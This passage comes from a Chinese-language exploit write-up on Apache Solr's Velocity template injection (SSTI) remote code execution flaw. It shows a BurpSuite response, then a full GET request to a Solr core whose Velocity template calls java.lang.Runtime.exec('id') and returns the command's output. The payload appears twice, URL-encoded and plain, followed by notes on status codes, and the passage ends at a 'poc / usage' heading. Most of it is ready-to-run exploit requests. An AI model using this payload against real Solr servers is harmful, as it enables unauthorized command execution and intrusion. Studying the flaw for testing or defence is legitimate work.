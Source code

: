 **BurpSuite response**

```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 149 `{

“responseHeader”:{

“status”:0,

“QTime”:554},

“WARNING”:“This response format is experimental.  It is likely to change in the future.”}` 
```

**开启后，直接Get 访问（带入表达式）进行 远程代码命令执行**

```
http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end 
```

**ssit**

```
http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end 
```

![image](img/ff222d26142792fc67eae7899f6af077.png)

注意到 状态码是`400`，`而不是200`，出现`500`的情况可能是 异常报错。

### poc

**usage**
